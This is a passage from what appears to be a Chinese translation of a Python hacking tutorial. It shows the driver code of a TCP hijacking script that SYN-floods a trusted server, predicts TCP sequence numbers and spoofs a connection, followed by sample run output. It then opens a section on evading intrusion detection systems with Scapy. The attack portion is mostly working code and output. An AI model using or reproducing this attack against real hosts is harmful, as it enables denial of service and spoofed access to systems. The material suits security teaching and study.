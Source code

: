 ```
    parser.add_option('-t', dest='tgt', type='string', help='specify target address')
    (options, args) = parser.parse_args()
    if options.synSpoof == None or options.srcSpoof == None or options.tgt == None:
        print(parser.usage)
        exit(0)
    else:
        synSpoof = options.synSpoof
        srcSpoof = options.srcSpoof
        tgt = options.tgt
    print('[+] Starting SYN Flood to suppress remote server.')
    synFlood(synSpoof, srcSpoof)
    print('[+] Calculating correct TCP Sequence Number.')
    seqNum = calTSN(tgt) + 1
    print('[+] Spoofing Connection.')
    spoofConn(srcSpoof, tgt, seqNum)
    print('[+] Done.')

if __name__ == '__main__':
    main() 
```

运行我们最终的脚本，我们成功复制了米特尼克 20 年前的攻击。一度被认为是史上最复杂的攻击现在被我们用几十行 Python 代码重现。现在手上有了较强的分析技能，让我们用到下一节描述的方法，一个针对入侵检测系统的复杂网络攻击的分析。

```
mitnick# python tcpHijack.py -s 10.1.1.2 -S 192.168.1.2 -t 192.168.1.106
[+] Starting SYN Flood to suppress remote server.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
<..SNIPPED..>
[+] Calculating correct TCP Sequence Number.
[+] TCP Seq Difference: 128000
[+] TCP Seq Difference: 128000
[+] TCP Seq Difference: 128000
[+] TCP Seq Difference: 128000
[+] Spoofing Connection.
.
Sent 1 packets.
.
Sent 1 packets.
[+] Done. 
```

## 用 Scapy 挫败入侵检测系统

入侵检测系统(IDS)是主管分析师手中一个非常有价值的工具。一个基于网络的入侵检测系统(NIDS)可以通过记录 IP 网络数据包实时分析流量。通过匹配已知恶意标记的数据包，IDS 可以在攻击成功之前提醒网络分析师。比如说，Snort 入侵检测系统通过预先包装各种不同的规则来检测不同类型的侦查，攻击，拒绝服务等其他不同的攻击向量。审查其中一个配置的内容，我们看到四个报警检测 TFN，tfn2k 和 Trin00 分布式拒绝服务的攻击工具。当攻击者使用 TFN, tfn2k 或者 Trin00 工具攻击目标，IDS 检测到攻击然后警告分析师。然而，当分析师接受比他们能分辨事件还要多的警告时他该怎么办？他们往往不知所措，可能会错过重要的攻击细节。
